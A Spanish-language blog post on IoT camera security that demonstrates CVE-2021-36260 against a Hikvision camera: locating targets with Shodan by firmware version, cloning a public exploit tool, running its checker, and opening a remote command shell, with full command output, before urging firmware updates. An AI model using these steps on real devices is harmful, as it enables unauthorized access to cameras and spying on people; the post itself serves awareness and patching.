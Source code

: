 ```yaml
---
title: Firmware updates
date: 2025-07-30 11:00:00 +0200
categories: [ciberseguridad, redes]
tags: [camaras, shodan, hacking, firmware, iot]     
image:
    path: https://upload.wikimedia.org/wikipedia/commons/thumb/8/88/Firmware_update_Fuji_Instax_Liplay.jpg/500px-Firmware_update_Fuji_Instax_Liplay.jpg1024px-Surface_Web_%26_Deep_Web.jpg
    alt: firmware update
---
```


## Ciberseguridad de IoT
Quiero dejar evidencia de lo sencillo que puede resultarle a actores maliciosos, obtener información de dispositivos IoT o hackearlos. Estos dispositivos, cámaras, sensores, aspiradoras, neveras, routers, etc, etc y cada vez hay más claro que no todos se conectan a Internet, sino "solamente a la red interna", esto en la mayoría de casos es cierto, pero poco a poco iremos "abriendo más puertos" para tener acceso a estos dispositivos desde Internet o dicho de otra forma, les daremos acceso a "la red" y no los tendremos tan aislados porque nos proporcionan "bienestar". Por ejemplo las cámaras de videovigilancia cada vez son más comunes y que en cierta forma proporcionan seguridad, a su vez el poder usar "la red" para tener acceso a ellas mejora la observabilidad y esto retroalimenta la seguridad. 

## Exploits  
Los actores maliciosos buscan vulnerabilidades para por ejemplo crear una botnet con dispositivos IoT. Cuando encuentran una como esta ya sea investigando ellos mismos o por por terceros, pasan a la siguiente fase. ```CVE-2021-36260``` 

## Dorking y sondas
Ahora que los actores maliciosos conocen las vulnerabilidades, lo que necesitan es encontrar objetivos a los que aplicar las técnicas necesarias para ganar acceso, privilegios y control sobre los mismos. 

Hay varias formas de encontrar estos dispositivos, puedes hacerlo con un script que haga un request aletoriamente por IPs para comprobar si ese puerto es una cam o una marca en concreto, lo que se llama escrapeo, con herramientas escáneres como Zmap capaces de escanear Internet entero en pocos minutos. También puedes usar la opción más dependiente que es usar una API de terceros como [https://www.shodan.io](https://www.shodan.io/), que es la que usé para testear. Otras fórmulas de búsqueda por supuesto. 

![shodan.io](https://upload.wikimedia.org/wikipedia/en/3/38/Shodan_%28website%29_logo.png)

Ahora en el buscador de Shodan introducimos simplemente ```3.1.3.150324``` esta sería la versión de la web vulnerable que nos indican en el exploit, si bien puede que afecte a más productos y por lo tanto a otras versiones de la web. Esto solo es el filtro que hemos aplicado a Shodan.io para el resultado de su motor. Aplicando otros filtros es posible que obtengamos más resultados. 

### Preparación 
``` shell
git clone https://github.com/tamim1089/HikvisionExploiter
python -m venv .
source bin/activate
pip install -r requirements.txt
nano targets.txt #introduces los targets ip:puerto
```

## Explotación

``` shell
python checker.py
=======================================================
Target: 192.168.2.221:81
=======================================================

[+] Directory accessible: http://192.168.2.221:81/onvif-http/snapshot?auth=YWRtaW46MTEK

[+] Device Info
    deviceName: IP CAMERA
    deviceID: 88
    deviceDescription: IPCamera
    deviceLocation: Lugo
    systemContact: Hikvision.China
    model: DS-2CD3T20D-I3
    serialNumber: DS-*********
    macAddress: c4:********
    firmwareVersion: V5.3.1
    firmwareReleasedDate: build 150401
    bootVersion: V1.3.4
    bootReleasedDate: 100316
    hardwareVersion: 0x0

[+] Users
    admin: Administrator
[+] Snapshot saved: logs/192.168.2.221:81_20250730_124156/20250730_124156.jpg

-- CVE-2021-36260 (RCE Command Injection Check) --
    RCE confirmed! Device is VULNERABLE!!!
    Run this to get a shell: chmod +x shell.sh && ./shell.sh 192.168.2.221:81

```

RCE shell, el proyecto viene acompañado de una utilidad para interactuar con el dispositivo a través de Curl 

```shell
(HikvisionExploiter) ┌──(pablo☠office)
└─$ ./shell.sh 192.168.2.221:81
[+] Target 192.168.2.221:81 appears vulnerable!
Connected to Hikvision target: 192.168.2.221:81
Type commands to execute remotely. Ctrl+C to exit.
hikvision-shell> ls
applib
certs
initrun.sh
pidfile
process
r2_isp_config
sound
webLib
```
Si el dispositivo es vulnerable además se generará un carpeta en el directorio logs intentará checkear si el dispostivo es  vulnerable a obtener una shell y además sacará una fotograma de la webcam y una copia del config_enc.bin el proyecto dice que intentará descifrarlo pero no he visto que lo haga, se quedará en un intento o funcionará en algunos modelos y otros no, no parecía funcionar en el que me han prestado para pruebas. 

``` shell
├── 192.168.2.221:81_20250730_124156
│   ├── 20250730_124156.jpg
│   └── config_enc.bin
```

## Firmware updates

Tengo un artículo explicando 14 puntos a tener en cuenta a la hora de securizar un router, en el se habla también de las actualizaciones y del miedo que se tiene a parchear, actualizar, etc este tipo de dispositivos. Solo intenta evaluar lo siguiente: Romper/brikear un dispositivo es algo técnico y puede que cueste dinero y tiempo, que te espíen en tu propia casa es algo personal. 

![webcam guitarrist](https://upload.wikimedia.org/wikipedia/commons/6/69/1975_Alvarez_guitar_%282010-10-18_03.14.15_by_fenderfish%29.jpg)

El de la foto no soy yo pero ejemplifica la situación. 